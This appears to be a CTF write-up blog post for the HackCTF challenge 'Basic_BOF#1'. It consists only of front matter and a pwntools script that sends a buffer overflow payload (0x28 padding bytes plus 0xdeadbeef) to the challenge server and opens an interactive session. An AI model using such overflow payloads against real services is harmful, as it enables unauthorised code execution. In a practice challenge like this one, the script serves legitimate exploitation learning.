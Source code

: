 ```yaml
---
title: "[HackCtf] Basic_BOF#1"
date: 2020-06-29
ctf: HackCTF
tag: [pwnable]
layout: post
---
```

<div class="colorscripter-code" style="color: #f0f0f0; overflow: auto; position: relative;"><table cellpadding="0" cellspacing="0" class="colorscripter-code-table" style="background-color: #272727; border-radius: 4px; border: none; margin-left: auto; margin-right: auto; padding: 0px;"><tbody><tr><td style="border-right: 2px solid rgb(79, 79, 79); padding: 6px;"><div style="color: #aaaaaa; line-height: 130%; margin: 0px; padding: 0px; text-align: right; word-break: normal;"><div style="line-height: 130%;">1</div><div style="line-height: 130%;">2</div><div style="line-height: 130%;">3</div><div style="line-height: 130%;">4</div><div style="line-height: 130%;">5</div><div style="line-height: 130%;">6</div></div></td><td style="padding: 6px 0px; text-align: left;"><div style="color: #f0f0f0; line-height: 130%; margin: 0px; padding: 0px;"><div style="line-height: 130%; padding: 0px 6px; white-space: pre;"><span style="color: #ff3399;">from</span>&nbsp;pwn&nbsp;<span style="color: #ff3399;">import</span>&nbsp;<span style="color: #0086b3;"></span><span style="color: #ff3399;">*</span></div><div style="line-height: 130%; padding: 0px 6px; white-space: pre;">&nbsp;</div><div style="line-height: 130%; padding: 0px 6px; white-space: pre;">p&nbsp;<span style="color: #0086b3;"></span><span style="color: #ff3399;">=</span>&nbsp;remote(<span style="color: #ffd500;">"ctf.j0n9hyun.xyz"</span>,&nbsp;<span style="color: #c10aff;">3000</span>)</div><div style="line-height: 130%; padding: 0px 6px; white-space: pre;">&nbsp;</div><div style="line-height: 130%; padding: 0px 6px; white-space: pre;">p.sendline(<span style="color: #ffd500;">"0"</span><span style="color: #0086b3;"></span><span style="color: #ff3399;">*</span><span style="color: #c10aff;">0x28</span><span style="color: #ff3399;">+</span>p32(<span style="color: #c10aff;">0xdeadbeef</span>))</div><div style="line-height: 130%; padding: 0px 6px; white-space: pre;">p.interactive()</div></div></td><td style="padding: 0px 2px 4px 0px; vertical-align: bottom;"><a href="http://colorscripter.com/info#e" style="color: white; text-decoration: none;" target="_blank"><span style="background-color: #4f4f4f; border-radius: 10px; color: white; font-size: 9px; padding: 1px; word-break: normal;">cs</span></a></td></tr></tbody></table></div>
